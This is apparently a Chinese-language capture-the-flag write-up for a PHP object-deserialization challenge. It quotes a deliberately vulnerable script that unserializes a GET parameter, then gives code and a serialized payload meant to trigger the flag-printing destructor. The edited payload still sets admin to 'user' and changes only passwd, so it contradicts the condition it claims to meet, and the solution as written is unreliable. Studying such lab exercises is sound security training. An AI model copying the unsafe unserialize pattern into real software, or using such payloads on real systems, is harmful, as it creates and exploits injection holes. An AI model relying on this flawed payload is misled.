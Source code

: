 # 题目  
只给了一张图，啥也没有，F12也没有发现什么  

# WP  

1. 直接看什么都没有，扫目录看看  
![alt text](image.png)  
DIR是导入的目录名，每一项前面自带/  
扫出一个东西  
![alt text](image-1.png)  

2. ![alt text](image-2.png)  

提示了一个目录/cl45s.php，直接访问  

3. 是一段php代码  
```php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```  

__destruct()是类的析构函数，在类销毁时自动执行，而程序在结束前会销毁类，类不是直接构造，而是由反序列化得到，因此要得到一个字符串，反序列化后得到一个wllm类，并且对应成员变量的值要符合条件  

4. 运行下面代码  
```php
<?php

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }
    }
}

$cl=new wllm();

echo serialize($cl);
```  
得到字符串  
```  
O:4:"wllm":2:{s:5:"admin";s:4:"user";s:6:"passwd";s:6:"123456";}
```  
修改一下  
```
O:4:"wllm":2:{s:5:"admin";s:4:"user";s:6:"passwd";s:3:"ctf";}  
```

5. p是get传值，url编码后传给p
![alt text](image-3.png)  

6. 得到flag  
![alt text](image-4.png)

